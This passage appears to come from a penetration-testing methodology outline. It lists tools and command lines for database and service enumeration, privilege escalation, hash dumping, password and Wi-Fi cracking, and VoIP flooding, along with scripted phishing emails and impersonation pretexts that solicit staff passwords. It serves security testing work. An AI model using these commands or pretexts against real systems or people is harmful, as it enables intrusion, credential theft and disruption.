                    information_schema (Key information in MySQL)
                        Complete table list -- select table_schema,table_name from tables;
                        Exact privileges -- select grantee, table_schema, privilege_type FROM schema_privileges;
                        File privileges -- select user,file_priv from mysql.user where user='root';
                        Version -- select version();
                        Load a specific file -- SELECT LOAD_FILE('FILENAME');
                SSL Check
                    mysql> show variables like 'have_openssl';
                        If there's no rows returned at all it means the the distro itself doesn't support SSL connections and probably needs to be recompiled. If its disabled it means that the service just wasn't started with ssl and can be easily fixed.
            Privilege Escalation
                Current Level of access
                    mysql>select user();
                    mysql>select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user where user='OUTPUT OF select user()';
                Access passwords
                    mysql> use mysql
                    mysql> select user,password from user;
                Create a new user and grant him privileges
                    mysql>create user test identified by 'test';
                    mysql> grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;
                Break into a shell
                    mysql> \! cat /etc/passwd
                    mysql> \! bash
        SQL injection
            mysql-miner.pl
                mysql-miner.pl http://target/ expected_string database
            http://www.imperva.com/resources/adc/sql_injection_signatures_evasion.html
            http://www.justinshattuck.com/2007/01/18/mysql-injection-cheat-sheet/
        References.
            Design Weaknesses
                MySQL running as root
                Exposed publicly on Internet
            http://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=mysql
            http://search.securityfocus.com/swsearch?sbm=%2F&metaname=alldoc&query=mysql&x=0&y=0
    RDesktop port 3389 open
        Rdesktop Enumeration
            Remote Desktop Connection
        Rdestop Bruteforce
            TSGrinder
                tsgrinder.exe -w dictionary_file -l leet -d workgroup -u administrator -b -n 2 IP_Address
            Tscrack
    Sybase Port 5000+ open
        Sybase Enumeration
            sybase-version ip_address from NGS
        Sybase Vulnerability Assessment
            Use DBVisualiser
                Sybase Security checksheet
                    Copy output into excel spreadsheet
                    Evaluate mis-configured parameters
                Manual sql input of previously reported vulnerabilties
                    Advanced SQL Injection in SQL Server
                    More Advanced SQL Injection
            NGS Squirrel for Sybase
    SIP Port 5060 open
        SIP Enumeration
            netcat
                nc IP_Address Port
            sipflanker
                python sipflanker.py 192.168.1-254
            Sipscan
            smap
                smap IP_Address/Subnet_Mask
                smap -o IP_Address/Subnet_Mask
                smap -l IP_Address
        SIP Packet Crafting etc.
            sipsak
                Tracing paths: - sipsak -T -s sip:usernaem@domain
                Options request:- sipsak -vv -s sip:username@domain
                Query registered bindings:- sipsak -I -C empty -a password -s sip:username@domain
            siprogue
        SIP Vulnerability Scanning/ Brute Force
            tftp bruteforcer
                Default dictionary file
                ./tftpbrute.pl IP_Address Dictionary_file Maximum_Processes
            VoIPaudit
            SiVuS
        Examine Configuration Files
            SIPDefault.cnf
            asterisk.conf
            sip.conf
            phone.conf
            sip_notify.conf
            <Ethernet address>.cfg
            000000000000.cfg
            phone1.cfg
            sip.cfg etc. etc.
    VNC port 5900^ open
        VNC Enumeration
            Scans
                5900^ for direct access.5800 for HTTP access.
        VNC Brute Force
            Password Attacks
                Remote
                    Password Guess
                        vncrack
                    Password Crack
                        vncrack
                        Packet Capture
                            Phosshttp://www.phenoelit.de/phoss
                Local
                    Registry Locations
                        \HKEY_CURRENT_USER\Software\ORL\WinVNC3
                        \HKEY_USERS\.DEFAULT\Software\ORL\WinVNC3
                    Decryption Key
                        0x238210763578887
        Exmine Configuration Files
            .vnc
            /etc/vnc/config
            $HOME/.vnc/config
            /etc/sysconfig/vncservers
            /etc/vnc.conf
    X11 port 6000^ open
        X11 Enumeration
            List open windows
            Authentication Method
                Xauth
                Xhost
        X11 Exploitation
            xwd
                xwd -display 192.168.0.1:0 -root -out 192.168.0.1.xpm
            Keystrokes
                Received
                Transmitted
            Screenshots
            xhost +
        Examine Configuration Files
            /etc/Xn.hosts
            /usr/lib/X11/xdm

                Search through all files for the command "xhost +" or "/usr/bin/X11/xhost +"
            /usr/lib/X11/xdm/xsession
            /usr/lib/X11/xdm/xsession-remote
            /usr/lib/X11/xdm/xsession.0
            /usr/lib/X11/xdm/xdm-config
                DisplayManager*authorize:on
    Tor Port 9001, 9030 open
        Tor Node Checker
            Ip Pages
            Kewlio.net
        nmap NSE script
    Jet Direct 9100 open
        hijetta



Network Footprinting

    Network Footprinting (Reconnaissance) The tester would attempt to gather as much information as possible about the selected network. Reconnaissance can take two forms i.e. active and passive. A passive attack is always the best starting point as this would normally defeat intrusion detection systems and other forms of protection etc. afforded to the network. This would usually involve trying to discover publicly available information by utilising a web browser and visiting newsgroups etc. An active form would be more intrusive and may show up in audit logs and may take the form of an attempted DNS zone transfer or a social engineering type of attack.

        Whois is widely used for querying authoritative registries/ databases to discover the owner of a domain name, an IP address, or an autonomous system number of the system you are targeting.
            Authoratitive Bodies
                IANA - Internet Assigned Numbers Authority
                ICANN - Internet Corporation for Assigned Names and Numbers.
                NRO - Number Resource Organisation
                RIR - Regional Internet Registry
                    AFRINIC - African Network Information Centre
                    APNIC - Asia Pacific Network Information Centre
                        National Internet Registry
                            APJII
                            CNNIC
                            JPNIC
                            KRNIC
                            TWNIC
                            VNNIC
                    ARIN - American Registry for Internet Numbers
                    LACNIC - Latin America & Caribbean Network Information Centre
                    RIPE - Reseaux IP Européens—Network Coordination Centre
            Websites
                Central Ops
                    Domain Dossier
                    Email Dossier
                DNS Stuff
                    Online DNS one-stop shop, with the ability to perform a great deal of disparate DNS type queries.
                Fixed Orbit
                    Autonomous System lookups and other online tools available.
                Geektools
                IP2Location
                    Allows limited free IP lookups to be performed, displaying geolocation information, ISP details and other pertinent information.
                Kartoo
                    Metasearch engine that visually presents its results.
                MyIPNeighbors.com
                    Excellent site that gives you details of shared domains on the IP queried/ conversely IP to DNS resolution
                Netcraft
                    Online search tool allowing queries for host information.
                Robtex
                    Excellent website allowing DNS and AS lookups to be performed with a graphical display of the results with pointers, A, MX records and AS connectivity displayed.
                    Note: - Can be unreliable with old entries (Use CentralOps to verify)
                Traceroute.org
                    Website listing a large number links to online traceroute resources.
                Wayback Machine
                    Stores older versions of websites, making it a good comparison tool and excellent resource for previously removed data.
                Whois.net
            Tools
                Cheops-ng
                Country whois
                Domain Research Tool
                Firefox Plugins
                    AS Number
                    Shazou
                    Firecat Suite
                Gnetutil
                Goolag Scanner
                Greenwich
                Maltego
                GTWhois
                Sam Spade
                Smart whois
                SpiderFoot
        Internet Search
            General Information
                Web Investigator
                Tracesmart
                Friends Reunited
                Ebay - profiles etc.
            Financial
                EDGAR - Company information, including real-time filings. US
                Google Finance - General Finance Portal
                Hoovers - Business Intelligence, Insight and Results. US and UK
                Companies House UK
                Land Registry UK
            Phone book/ Electoral Role Information
                123people
                    http://www.123people.co.uk/s/firstname+lastname/world
                192.com
                    Electoral Role Search. UK
                411
                    Online White Pages and Yellow Pages. US

                Abika
                    Background Check, Phone Number Lookup, Trace email, Criminal record, Find People, cell phone number search, License Plate Search. US
                BT.com. UK
                    Residential
                    Business
                Pipl

                    http://pipl.com/search/?FirstName=????&LastName=????&City=&State=&Country=UK&CategoryID=2&Interface=1
                    http://pipl.com/search/?Email=john%40example.com&CategoryID=4&Interface=1
                    http://pipl.com/search/?Username=????&CategoryID=5&Interface=1
                Spokeo
                    http://www.spokeo.com/user?q=domain_name
                    http://www.spokeo.com/user?q=email_address
                Yasni
                    http://www.yasni.co.uk/index.php?action=search&search=1&sh=&name=firstname+lastname&filter=Keyword
                Zabasearch
                    People Search Engine. US
            Generic Web Searching
                Code Search
                Forum Entries
                Google Hacking Database
                Google
                    Back end files
                        .exe / .txt / .doc / .ppt / .pdf / .vbs / .pl / .sh / .bat / .sql / .xls / .mdb / .conf
                    Email Addresses
                    Contact Details
                Newsgroups/forums
                Blog Search
                    Yammer
                    Google Blog Search
                        http://blogsearch.google.com/blogsearch?hl=en&ie=UTF-8&q=????&btnG=Search+Blogs
                    Technorati
                        http://technorati.com/search/[query]?language=n
                    Jaiku
                    Present.ly
                    Twitter Network Browser
                Search Engine Comparison/ Aggregator Sites
                    Clusty
                        http://clusty.com/search?input-form=clusty-simple&v%3Asources=webplus&query=????
                    Grokker
                        http://live.grokker.com/grokker.html?query=?????&OpenSearch_Yahoo=true&Wikipedia=true&numResults=250
                    Zuula
                        http://www.zuula.com/SearchResult.jsp?bst=1&prefpg=1&st=????&x=0&y=0
                    Exalead

                        http://www.exalead.co.uk/search/results?q=????&x=0&y=0&%24mode=allweb&%24searchlanguages=en
                    Delicious
                        http://delicious.com/search?p=?????&u=&chk=&context=&fr=del_icio_us&lc=0
            Metadata Search

                Metadata can be found within various file formats. Dependant on the file types to be inspected, the more metadata can be extracted. Example metadata that can be extracted includes valid usernames, directory structures etc. make the review of documents/ images etc. relating to the target domain a valuable source of information.
                    MetaData Visualisation Sites
                        TouchGraph Google Browser
                        Kartoo
                    Tools
                        Bashitsu
                            svn checkout http://bashitsu.googlecode.com/svn/trunk/
                            cat filename | strings | bashitsu-extract-names
                        Bintext
                        Exif Tool
                            exiftool -common directory
                            exiftool -r -w .txt -common directory
                        FOCA
                            Online Version
                            Offline
                        Hachoir
                        Infocrobes
                        Libextractor
                            extract -b filename
                            extract filename
                            extract -B country_code filename
                        Metadata Extraction Tool
                            extract.bat <arg1> <arg2> <arg3>
                        Metagoofil
                            metagoofil -d target_domain -l max_no_of_files -f all ( or pdf,doc,xls,ppt) -o output_file.html -t directory_to_download_files_to
                        OOMetaExtractor
                        The Revisionist
                            ./therev '' @/directory
                            ./therev '' site.com
                            ./therev 'linux' microsoft.com en
                        Wvware
                    Wikipedia Metadata Search
                        Wikiscanner
                        Wikipedia username checker
            Social/ Business Networks

                The following sites are some of many social and business related networking entities that are in use today.  Dependant on the interests of the people you are researching it may be worth just exploring sites that they have a particular penchant based on prior knowledge from open source research, company biographies etc. i.e. Buzznet if they are interested in music/ pop culture, Flixter for movies etc.

                Finding a persons particular interests may make a potential client side attack more successful if you can find a related "hook" in any potential "spoofed" email sent for them to click on (A Spearphishing technique)

                Note: - This list is not exhaustive and has been limited to those with over 1 million members.
                    Africa
                        BlackPlanet
                    Australia
                        Bebo
                    Belgium
                        Netlog
                    Holland
                        Hyves
                    Hungary
                        iWiW
                    Iran
                        Cloob
                    Japan
                        Mixi
                    Korea
                        CyWorld
                    Poland
                        Grono
                        Nasza-klasa
                    Russia
                        Odnoklassniki
                        Vkontakte
                    Sweden
                        LunarStorm
                    UK
                        FriendsReunited et al
                        Badoo
                        FaceParty
                    US
                        Classmates
                        Facebook
                        Friendster
                        MyLife.com (formerly Reunion.com)
                        MySpace
                        Windows Live Spaces
                    Assorted
                        Buzznet
                        Care2
                        Habbo
                        Hi5
                        Linkedin
                        MocoSpace
                        Naymz
                        Orkut
                        Passado
                        Tagged
                        Twitter
                        Windows Live Spaces
                        Xanga
                        Yahoo! 360°
                        Xing
                            http://www.xing.com/app/search?op=universal&universal=????
            Resources
                OSINT
                International Directory of Search Engines
        DNS Record Retrieval from publically available servers
            Types of Information Records
                SOA Records - Indicates the server that has authority for the domain.
                MX Records - List of a host's or domain's mail exchanger server(s).
                NS Records - List of a host's or domain's name server(s).
                A Records - An address record that allows a computer name to be translated to an IP address. Each computer has to have this record for its IP address to be located via DNS.
                PTR Records - Lists a host's domain name, host identified by its IP address.
                SRV Records - Service location record.
                HINFO Records - Host information record with CPU type and operating system.
                TXT Records - Generic text record.
                CNAME - A host's canonical name allows additional names/ aliases to be used to locate a computer.
                RP - Responsible person for the domain.
            Database Settings
                Version.bind
                Serial
                Refresh
                Retry
                Expiry
                Minimum
            Sub Domains
            Internal IP ranges
                Reverse DNS for IP Range
            Zone Transfer
        Social Engineering
            Remote
                Phone
                    Scenarios
                        IT Department."Hi, it's Zoe from the helpdesk. I am doing a security audit of the networkand I need to re-synchronise the Active Directory usernames and passwords.This is so that your logon process in the morning receives no undue delays"If you are calling from a mobile number, explain that the helpdesk has beenissued a mobile phone for 'on call' personnel.
                    Results
                    Contact Details
                        Name
                        Phone number
                        Email
                        Room number
                        Department
                        Role
                Email
                    Scenarios
                        Hi there, I am currently carrying out an Active Directory Health Checkfor TARGET COMPANY and require to re-synchronise some outstandingaccounts on behalf of the IT Service Desk. Please reply to medetailing the username and password you use to logon to your desktopin the morning. I have checked with MR JOHN DOE, the IT SecurityAdvisor and he has authorised this request. I will then populate thedatabase with your account details ready for re-synchronisation withActive Directory such that replication of your account will bere-established (this process is transparent to the user and sorequires no further action from yourself). We hope that this exercisewill reduce the time it takes for some users to logon to the network.Best Regards, Andrew Marks
                        Good Morning,The IT Department had a critical failure last night regarding remote access to the corporate network, this will only affect users that occasionally work from home.If you have remote access, please email me with your username and access requirements e.g. what remote access system did you use? VPN and IP address etc, and we will reset the system. We are also using this 'opportunity' to increase the remote access users, so if you believe you need to work from home occasionally, please email me your usernames so I can add them to the correct groups.If you wish to retain your current credentials, also send your password. We do not require your password to carry out the maintainence, but it will change if you do not inform us of it.We apologise for any inconvenience this failure has caused and are working to resolve it as soon as possible. We also thank you for your continued patience and help.Kindest regards,leeEMAIL SIGNATURE
                    Software
                    Results
                    Contact Details
                        Name
                        Phone number
                        Email
                        Room number
                        Department
                        Role
                Other
            Local
                Personas
                    Name
                        Suggest same 1st name.
                    Phone
                        Give work mobile, but remember they have it!
                    Email
                        Have a suitable email address
                    Business Cards
                        Get cards printed
                Contact Details
                    Name
                    Phone number
                    Email
                    Room number
                    Department
                    Role
                Scenarios
                    New IT employee
                        New IT employee."Hi, I'm the new guy in IT and I've been told to do a quick survey of users on the network. They give all the worst jobs to the new guys don't they? Can you help me out on this?"Get the following information, try to put a "any problems with it we can help with?" slant on it.UsernameDomainRemote access (Type - Modem/VPN)Remote email (OWA)Most used software?Any comments about the network?Any additional software you would like?What do you think about the security on the network? Password complexity etc.Now give reasons as to why they have complexity for passwords, try and get someone to give you their password and explain how you can make it more secure."Thanks very much and you'll see the results on the company boards soon."
                    Fire Inspector
                        Turning up on the premise of a snap fire inspection, in line with the local government initiatives on fire safety in the workplace.Ensure you have a suitable appearance - High visibility jacket - Clipboard - ID card (fake).Check for:number of fire extinguishers, pressure, type.Fire exits, accessibility etc.Look for any information you can get. Try to get on your own, without supervision!
                Results
                Maps
                    Satalitte Imagery
                        Google Maps
                    Building layouts
                Other
        Dumpster Diving
            Rubbish Bins
            Contract Waste Removal
            Ebay ex-stock sales i.e. HDD
        Web Site copy
            htttrack
            teleport pro
            Black Widow


Password cracking

    Rainbow crack
        ophcrack
        rainbow tables
            rcrack c:\rainbowcrack\*.rt -f pwfile.txt
    Ophcrack
    Cain & Abel
    John the Ripper
        ./unshadow passwd shadow > file_to_crack
        ./john -single file_to_crack
        ./john -w=location_of_dictionary_file -rules file_to_crack
        ./john -show file_to_crack
        ./john --incremental:All file_to_crack
    fgdump
        fgdump [-t][-c][-w][-s][-r][-v][-k][-l logfile][-T threads] {{-h Host | -f filename} -u Username -p Password | -H filename} i.e. fgdump.exe -u hacker -p hard_password -c -f target.txt
    pwdump6
        pwdump [-h][-o][-u][-p] machineName
    medusa
    LCP
    L0phtcrack (Note: - This tool was aquired by Symantec from @Stake and it is there policy not to ship outside the USA and Canada
        Domain credentials
        Sniffing
        pwdump import
        sam import
    aiocracker
        aiocracker.py [md5, sha1, sha256, sha384, sha512] hash dictionary_list


VoIP Security

    Sniffing Tools
        AuthTool
        Cain & Abel
        Etherpeek
        NetDude
        Oreka
        PSIPDump
        SIPomatic
        SIPv6 Analyzer
        UCSniff
        VoiPong
        VOMIT
        Wireshark
        WIST - Web Interface for SIP Trace
    Scanning and Enumeration Tools
        enumIAX
        fping
        IAX Enumerator
        iWar
        Nessus
        Nmap
        SIP Forum Test Framework (SFTF)
        SIPcrack
        sipflanker
            python sipflanker.py 192.168.1-254
        SIP-Scan
        SIP.Tastic
        SIPVicious
        SiVuS
        SMAP
            smap IP_Address/Subnet_Mask
            smap -o IP_Address/Subnet_Mask
            smap -l IP_Address
        snmpwalk
        VLANping
        VoIPAudit
        VoIP GHDB Entries
        VoIP Voicemail Database
    Packet Creation and Flooding Tools
        H.323 Injection Files
        H225regreject
        IAXHangup
        IAXAuthJack
        IAX.Brute
        IAXFlooder
            ./iaxflood sourcename destinationname numpackets
        INVITE Flooder
            ./inviteflood interface target_user target_domain ip_address_target no_of_packets
        kphone-ddos
        RTP Flooder
        rtpbreak
        Scapy
        Seagull
        SIPBomber
        SIPNess
        SIPp
        SIPsak
            Tracing paths: - sipsak -T -s sip:usernaem@domain
            Options request:- sipsak -vv -s sip:username@domain
            Query registered bindings:- sipsak -I -C empty -a password -s sip:username@domain
        SIP-Send-Fun
        SIPVicious
        Spitter
        TFTP Brute Force
            perl tftpbrute.pl <tftpserver> <filelist> <maxprocesses>
        UDP Flooder
            ./udpflood source_ip target_destination_ip src_port dest_port no_of_packets
        UDP Flooder (with VLAN Support)
            ./udpflood source_ip target_destination_ip src_port dest_port TOS user_priority VLAN ID no_of_packets
        Voiphopper
    Fuzzing Tools
        Asteroid
        Codenomicon VoIP Fuzzers
        Fuzzy Packet
        Mu Security VoIP Fuzzing Platform
        ohrwurm RTP Fuzzer
        PROTOS H.323 Fuzzer
        PROTOS SIP Fuzzer
        SIP Forum Test Framework (SFTF)
        Sip-Proxy
        Spirent ThreatEx
    Signaling Manipulation Tools
        AuthTool
            ./authtool captured_sip_msgs_file -d dictionary -r usernames_passwords -v
        BYE Teardown
        Check Sync Phone Rebooter
        RedirectPoison
            ./redirectpoison interface target_source_ip target_source_port "<contact_information i.e. sip:100.77.50.52;line=xtrfgy>"
        Registration Adder
        Registration Eraser
        Registration Hijacker
        SIP-Kill
        SIP-Proxy-Kill
        SIP-RedirectRTP
        SipRogue
        vnak
    Media Manipulation Tools
        RTP InsertSound
            ./rtpinsertsound interface source_rtp_ip source_rtp_port destination_rtp_ip destination_rtp_port file
        RTP MixSound
            ./rtpmixsound interface source_rtp_ip source_rtp_port destination_rtp_ip destination_rtp_port file
        RTPProxy
        RTPInject
    Generic Software Suites
        OAT Office Communication Server Tool Assessment
        EnableSecurity VOIPPACK
            Note: - Add-on for Immunity Canvas
    References
        URL's
            Common Vulnerabilities and Exploits (CVE)
                Vulnerabilties and exploit information relating to these products can be found here: http://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=voip
            Default Passwords
            Hacking Exposed VoIP
                Tool Pre-requisites
                    Hack Library
                    g711conversions
            VoIPsa
        White Papers
            An Analysis of Security Threats and Tools in SIP-Based VoIP Systems
            An Analysis of VoIP Security Threats and Tools
            Hacking VoIP Exposed
            Security testing of SIP implementations
            SIP Stack Fingerprinting and Stack Difference Attacks
            Two attacks against VoIP
            VoIP Attacks!
            VoIP Security Audit Program (VSAP)

Vulnerability Assessment

    Vulnerability Assessment - Utilising vulnerability scanners all discovered hosts can then be tested for vulnerabilities. The result would then be analysed to determine if there any vulnerabilities that could be exploited to gain access to a target host on a network. A number of tests carried out by these scanners are just banner grabbing/ obtaining version information, once these details are known, the version is compared with any common vulnerabilities and exploits (CVE) that have been released and reported to the user. Other tools actually use manual pen testing methods and display the output received i.e. showmount -e ip_address would display the NFS shares available to the scanner whcih would then need to be verified by the tester.
        Manual
            Patch Levels
            Confirmed Vulnerabilities
                Severe
                High
                Medium
                Low
        Automated
            Reports
            Vulnerabilities
                Severe
                High
                Medium
                Low
        Tools
            GFI
            Nessus (Linux)
                Nessus (Windows)
            NGS Typhon
            NGS Squirrel for Oracle
            NGS Squirrel for SQL
            SARA
            MatriXay
            BiDiBlah
            SSA
            Oval Interpreter
            Xscan
            Security Manager +
            Inguma
        Resources
            Security Focus
            Microsoft Security Bulletin
            Common Vulnerabilities and Exploits (CVE)
            National Vulnerability Database (NVD)
            The Open Source Vulnerability Database (OSVDB)
                Standalone Database
                    Update URL
            United States Computer Emergency Response Team (US-CERT)
            Computer Emergency Response Team
            Mozilla Security Information
            SANS
            Securiteam
            PacketStorm Security
            Security Tracker
            Secunia
            Vulnerabilities.org
            ntbugtraq
            Wireless Vulnerabilities and Exploits (WVE)
        Blogs
            Carnal0wnage
            Fsecure Blog
            g0ne blog
            GNUCitizen
            ha.ckers Blog
            Jeremiah Grossman Blog
            Metasploit
            nCircle Blogs
            pentest mokney.net
            Rational Security
            Rise Security
            Security Fix Blog
            Software Vulnerability Exploitation Blog
            Taosecurity Blog


Wireless Penetration

    Wireless Assessment. The following information should ideally be obtained/enumerated when carrying out your wireless assessment. All this information is needed to give the tester, (and hence, the customer), a clear and concise picture of the network you are assessing. A brief overview of the network during a pre-site meeting weith the customer should allow you to estimate the timescales required to carry the assessment out.
        Site Map
            RF Map
                Lines of Sight
                Signal Coverage
                    Standard Antenna
                    Directional Antenna
            Physical Map
                Triangulate APs
                Satellite Imagery
        Network Map
            MAC Filter
                Authorised MAC Addresses
                Reaction to Spoofed MAC Addresses
            Encryption Keys utilised
                WEP
                    Key Length
                        Crack Time
                        Key
                WPA/PSK
                    TKIP
                        Temporal Key Integrity Protocol, (TKIP), is an encryption protocol desgined to replace WEP
                            Key
                            Attack Time
                    AES
                        Advanced Encryption Standard (AES) is an encryption algorithm utilised for securing sensitive data.
                            Key
                            Attack Time
                802.1x
                    Derivative of 802.1x in use
            Access Points
                ESSID
                    Extended Service Set Identifier, (ESSID). Utilised on wireless networks with an access point
                        Broadcast ESSIDs
                BSSIDs
                    Basic service set identifier, (BSSID), utilised on ad-hoc wireless networks.
                        Vendor
                        Channel
                        Associations
                        Rogue AP Activity
            Wireless Clients
                MAC Addresses
                    Vendor
                    Operating System Details
                    Adhoc Mode
                    Associations
                Intercepted Traffic
                    Encrypted
                    Clear Text
    Wireless Toolkit
        Wireless Discovery
            Aerosol
            Airfart
            Aphopper
            Apradar
            BAFFLE
            karma
            Kismet
            MiniStumbler
            Netstumbler
            Wellenreiter
            Wifi Hopper
            WirelessMon
        Packet Capture
            Airopeek
            Airtraf
            Apsniff
            Cain
            Wireshark
        EAP Attack tools
            eapmd5pass
                eapmd5pass -w dictionary_file -r eapmd5-capture.dump

                eapmd5pass -w dictionary_file -U username -C EAP-MD5 Challengevalue -R EAP_MD5_Response_value -E 2 EAP-MD5 Response EAP ID Value i.e.
                -C e4:ef:ff:cf:5a:ea:44:7f:9a:dd:4f:3b:0e:f4:4d:20 -R 1f:fd:6c:46:49:bc:5d:b9:11:24:cd:02:cb:22:6d:37 -E 2
        Leap Attack Tools
            asleap
            thc leap cracker
            anwrap
        WEP/ WPA Password Attack Tools
            Aircrack-ptw
            Aircrack-ng
            Airsnort
            cowpatty
            wep attack
            wep crack
            Airbase
            wzcook
        Frame Generation Software
            Airgobbler
            airpwn
            Airsnarf
            Commview
            fake ap
            void 11
            wifi tap
                wifitap -b <BSSID> [-o <iface>] [-i <iface> [-p] [-w <WEP key> [-k <key id>]] [-d [-v]] [-h]
            FreeRADIUS - Wireless Pwnage Edition
        Mapping Software
            Knsgem
        File Format Conversion Tools
            ns1 recovery and conversion tool
            warbable
            warkizniz
                warkizniz04b.exe [kismet.csv] [kismet.gps] [ns1 filename]
            ivstools
        IDS Tools
            WIDZ
            War Scanner
            Snort-Wireless
            AirDefense
            AirMagnet
    WLAN discovery
        Unencrypted WLAN
            Visible SSID
                Sniff for IP range
                    MAC authorised
                    MAC filtering
                        Spoof valid MAC
                            Linux
                                ifconfig [interface] hw ether [MAC]
                            macchanger
                                Random Mac Address:- macchanger -r eth0
                            mac address changer for windows
                            madmacs
                            TMAC
                            SMAC
            Hidden SSID
                Deauth client
                    Aireplay-ng
                        aireplay -0 1 -a [Access Point MAC] -c [Client MAC] [interface]
                    Commview
                        Tools > Node reassociation
                    Void11
                        void11_penetration wlan0 -D -t 1 -B [MAC]
        WEP encrypted WLAN
            Visible SSID
                WEPattack
                    wepattack -f [dumpfile] -m [mode] -w [wordlist] -n [network]
                        Capture / Inject packets
                            Break WEP
                                Aircrack-ptw
                                    aircrack-ptw [pcap file]
                                Aircrack-ng
                                    aircrack -q -n [WEP key length] -b [BSSID] [pcap file]
                                Airsnort
                                    Channel > Start
                                WEPcrack
                                    perl WEPCrack.pl
                                    ./pcap-getIV.pl -b 13 -i wlan0
            Hidden SSID
                Deauth client
                    Aireplay-ng
                        aireplay -0 1 -a [Access Point MAC] -c [Client MAC] [interface]
                    Commview
                        Tools > Node reassociation
                    Void11
                        void11_hopper
                        void11_penetration [interface] -D -s [type of attack] -s [station MAC] -S [SSID] -B [BSSID]
        WPA / WPA2 encrypted WLAN
            Deauth client
                Capture EAPOL handshake
                    WPA / WPA 2 dictionary attack
                        coWPAtty
                            ./cowpatty -r [pcap file] -f [wordlist] -s [SSID]
                            ./genpmk -f dictionary_file -d hashfile_name -s ssid
                            ./cowpatty -r cature_file.cap -d hashfile_name -s ssid
                        Aircrack-ng
                            aircrack-ng -a 2 -w [wordlist] [pcap file]
        LEAP encrypted WLAN
            Deauth client
                Break LEAP
                    asleap
                        ./asleap -r data/libpcap_packet_capture_file.dump -f output_pass+hash file.dat -n output_index_filename.idx
                        ./genkeys -r dictionary_file -f output_pass+hash file.dat -n output_index_filename.idx
                    THC-LEAPcracker
                        leap-cracker -f [wordlist] -t [NT challenge response] -c [challenge]
        802.1x WLAN
            Create Rogue Access Point
                Airsnarf
                    Deauth client
                        Associate client
                            Compromise client
                                Acquire passphrase / certificate
                                    wzcook
                                    Obtain user's certificate
                fake ap
                    perl fakeap.pl --interface wlan0
                    perl fakeap.pl --interface wlan0 --channel 11 --essid fake_name --wep 1 --key [WEP KEY]
                Hotspotter
                    Deauth client
                        Associate client
                            Compromise client
                                Acquire passphrase / certificate
                                    wzcook
                                    Obtain user's certificate
                Karma
                    Deauth client
                        Associate client
                            Compromise client
                                Acquire passphrase / certificate
                                    wzcook
                                    Obtain user's certificate
                    ./bin/karma etc/karma-lan.xml
                Linux rogue AP
                    Deauth client
                        Associate client
                            Compromise client
                                Acquire passphrase / certificate
                                    wzcook
                                    Obtain user's certificate
        Resources
            URL's
                Wirelessdefence.org
                Russix
                Wardrive.net
                Wireless Vulnerabilities and Exploits (WVE)
            White Papers
                Weaknesses in the Key Scheduling Algorithm of RC4
                802.11b Firmware-Level Attacks
                Wireless Attacks from an Intrusion Detection Perspective
                Implementing a Secure Wireless Network for a Windows Environment
                Breaking 104 bit WEP in less than 60 seconds
                PEAP Shmoocon2008 Wright & Antoniewicz
                Active behavioral fingerprinting of wireless devices
            Common Vulnerabilities and Exploits (CVE)
                Vulnerabilties and exploit information relating to these products can be found here: http://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=wireless


Penetration

    Penetration - An exploit usually relates to the existence of some flaw or vulnerability in an application or operating system that if used could lead to privilege escalation or denial of service against the computer system that is being attacked. Exploits can be compiled and used manually or various engines exist that are essentially at the lowest level pre-compiled point and shoot tools. These engines do also have a number of other extra underlying features for more advanced users.
        Password Attacks
            Known Accounts
                Identified Passwords
                Unidentified Hashes
            Default Accounts
                Identified Passwords
                Unidentified Hashes
        Exploits
            Successful Exploits
                Accounts
                    Passwords
                        Cracked
                        Uncracked
                    Groups
                    Other Details
                Services
                Backdoor
                Connectivity
            Unsuccessful Exploits
            Resources
                Securiteam
                    Exploits are sorted by year and must be downloaded individually
                SecurityForest
                    Updated via CVS after initial install
                GovernmentSecurity
                    Need to create and account to obtain access
                Red Base Security
                    Oracle Exploit site only
                Wireless Vulnerabilities & Exploits (WVE)
                    Wireless Exploit Site
                PacketStorm Security
                    Exploits downloadable by month and year but no indexing carried out.
                SecWatch
                    Exploits sorted by year and month, download seperately
                SecurityFocus
                    Exploits must be downloaded individually
                Metasploit
                    Install and regualrly update via svn
                Milw0rm
                    Exploit archived indexed and sorted by port download as a whole - The one to go for!
        Tools
            Metasploit
                Free Extra Modules
                    local copy
            Manual SQL Injection
                Understanding SQL Injection
                SQL Injection walkthrough
                SQL Injection by example
                Blind SQL Injection
                Advanced SQL Injection in SQL Server
                More Advanced SQL Injection
                Advanced SQL Injection in Oracle databases
                SQL Cheatsheets

                    http://ha.ckers.org/sqlinjection

                    http://ferruh.mavituna.com/sql-injection-cheatsheet-oku/

                    http://www.0x000000.com/?i=14

                    http://pentestmonkey.net/
            SQL Power Injector
            SecurityForest
            SPI Dynamics WebInspect
            Core Impact
            Cisco Global Exploiter
            PIXDos
                perl PIXdos.pl [ --device=interface ] [--source=IP] [--dest=IP] [--sourcemac=M AC] [--destmac=MAC] [--port=n]
            CANVAS
            Inguma


